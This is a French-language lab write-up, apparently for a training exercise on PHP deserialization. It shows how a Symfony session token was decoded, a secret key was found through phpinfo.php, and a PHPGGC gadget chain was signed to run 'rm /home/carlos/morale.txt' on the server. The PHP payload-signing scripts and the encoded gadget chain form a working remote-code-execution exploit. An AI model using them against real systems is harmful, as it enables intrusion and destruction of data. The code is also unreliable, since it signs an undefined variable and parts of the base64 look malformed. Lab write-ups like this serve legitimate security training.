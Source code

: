 # PHP deserialization with pre-built gadget chain
- En informatique, la sérialisation est le codage d'une information sous la forme d'une suite d'informations plus petites pour, par exemple, sa sauvegarde ou son transport sur le réseau. Ce qu'on va faire là c'est l'inverse de ce procédé. On va décoder des informations appartenant au système Symfonie.<br/>
## Exploitation
- En premier temps je lance Burpsuite et je le laisse tourner en arrière-plan pendant que je fais ma prochaine manipulation.<br/>
- Ensuite je me login pour générer des requêtes. L'énnonce nous indique que le login par défaut est "wiener" et "peter".<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770030149490966548/unknown.png"/><br/><br/>
- Je check l'historique des requêtes et je sélectionne l'index où le procédé du login a été sérialisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770031231060017192/unknown.png?width=1195&height=890"/><br/><br/>
- Ici on constate que le token de la session "Wiener:Peter" a été encodé en URL. Par conséquent j'envoie la partie codée vers le décodeur de Burpsuite.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770032331141677066/unknown.png"/><br/><br/>
- Je décode en URL et hop, la section est plus claire.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770033158891503656/unknown.png"/><br/><br/>
- On voit qu'il y a une partie codée en base64, je la décode.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770033590125199370/unknown.png"/><br/><br/>
- Passons, je vais garder tout ça pour plus tard. Ce qui m'intéresse maintenant c'est de savoir sous quel framework est utilisé par le serveur-web.<br/>
- Pour ce faire j'envoie la requête vers le repeater et je supprime la partie "7D" du % qui est en réalité une accolade mais encodé en URL pour par conséquent générer une erreur par le framework utilisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770310427426684979/unknown.png"/><br/><br/>
- On sait maintenant que le framework Symfonie de la version 4.3.6 est utilisé.<br/>
- Maintenant on check les ressources du site-web pour trouver le fichier PHP de configuration.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770311153867554927/unknown.png"/><br/><br/>
- Le fichier phpinfo.php existe donc je le renvoie vers le repeater.<br/>
- Il me faut le SECRET_KEY pour créer mon gadget donc je cherche la keyword et je tombe sur ça.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770312787452493834/unknown.png?width=1095&height=630"/><br/><br/>
- Maintenant je passe au développement du gadget chain.<br/>
```PHP
<?php 

	$rce = "";

	$secretKey = "7sbqv3xwfjipv4gmsofrqxlj4dcqr5dl";
	
	echo $payload = urlencode('{"token":"' . $rce . '", "sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');

?>
```
<br/>
- Pour créer l'object (RCE) qu'on voudra faire exécuter au serveur-web. Je fais l'usage de PHPGGC, mais qu'est-ce que c'est au juste ?<br/>
- PHPGGC est une bibliothèque de payloads unserialize() et un outil qui les génère. Lorsqu'il y a une désérialisation sur un site Web dont vous n'avez pas le code, ou simplement lorsque vous essayez de créer un exploit, cet outil vous permet de générer la payload sans avoir à passer par les étapes fastidieuses de recherche de gadgets et de combinaison. Il peut être vu comme l'équivalent de ysoserial ou même frohoff, mais ce pour le langage PHP. Actuellement, l'outil prend en charge les frameworks: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii et ZendFramework.<br/>
- La source se trouve ici : https://github.com/ambionics/phpggc.<br/>
- En faisant attention, on a pu voir que le serveur-web utilisait le framework Symfony donc ça tombe bien vu que PHPGGC accepte ce framework.<br/>
- La version du framework était 4.3.6.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770318095209725952/unknown.png"/><br/><br/>
- L'énoncé nous dit qu'on doit supprimer le fichier morale.txt qui se trouve dans le répertoire "/home/carlos".<br/>
- J'ai plus qu'à générer la payload en ajoutant la commande de supprésion de fichier tout en implémentant la payload en base64.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770319551245582336/unknown.png"/><br/><br/>
- Pour que le résultat soit en une ligne faites "base64 -w 0".<br/><br/>
```PHP
<?php 
	$rce = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBT
eW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7
TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M
6TI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnl
cQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW
50XENhYhlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcH
RlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlc
lxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";

	$secretKey = "7sbqv3xwfjipv4gmsofrqxlj4dcqr5dl";
	
	echo $payload = urlencode('{"token":"' . $rce . '", "sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');

?>
```
<br/>
- Notre gadget chain est enfin terminé, maintenant on fait exécuter le fichier .php, qu'importe le serveur, personnellement je l'héberge dans mon réseau local.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770322237214818304/unknown.png?width=1440&height=394"/><br/><br/>
- Hop, on a notre gadget chain. Pour la mettre en oeuvre on a plus qu'à C/C notre payload dans l'index qu'on a redirigé vers le repeater et on a notre RCE ;].<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770323225527582750/unknown.png?width=921&height=630"/><br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770323394004123648/unknown.png"/>
